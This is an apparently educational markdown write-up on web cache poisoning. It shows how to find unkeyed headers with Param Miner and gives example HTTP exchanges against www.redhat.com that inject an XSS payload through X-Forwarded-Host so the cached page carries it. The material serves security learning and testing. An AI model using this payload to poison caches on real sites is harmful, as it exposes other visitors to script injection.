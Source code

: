# Cache Poisoning:

**The objective of web cache poisoning is to send a request that causes a harmful response that gets saved in the cache and served to other users.This is mainly done by unkeyed inputs like HTTP headers**

## Methodology:

In the first step we will identify the Unkeyed Inputs, which can be done by using a burp extension named **Param Miner** which can be downloaded from **Bapp Store** for free. 
Whether a page gets cached may be based on a variety of factors including the file extension, content-type, route, status code, and response headers.

**Note: When auditing a live website, accidentally poisoning other visitors is a perpetual hazard. So we use Cache Buster. We can add a cache buster in a request by appending any ramdom Parameter like `/message.php?anythingrandom`**

***

**Example of XSS via Cache Poisoning:**


```
GET /en?cb=1 HTTP/1.1  
Host: www.redhat.com  
X-Forwarded-Host: unkeyed  
  
HTTP/1.1 200 OK  
Cache-Control: public, no-cache  
…  
<meta property="og:image" content="https://unkeyed/cms/social.png" />
```


In the above code the `Param Miner` found that `X-Forwarded-Host:` is unkeyed input, and we can see that its value is been reflected in the meta tag in the response.

So, We will now change the Value of `X-Forwarded-Host` to XSS payload:

```
GET /en?dontpoisoneveryone=1 HTTP/1.1  
Host: www.redhat.com  
X-Forwarded-Host: hello.com"><script>alert(1)</script>  
  
HTTP/1.1 200 OK  
X-Cache: HIT
…  
<meta property="og:image" content="https://hello.com"><script>alert(1)</script>"/>
```

Now we can see that our javascript payload is escaped from double quotes and is properly executing.
Now If we send `http://www.redhat.com/en?dontpoisoneveryone=1` to anyone then the payload will be executed because it was stored in the `Cache Server` of the app with the Javascript Payload.

***
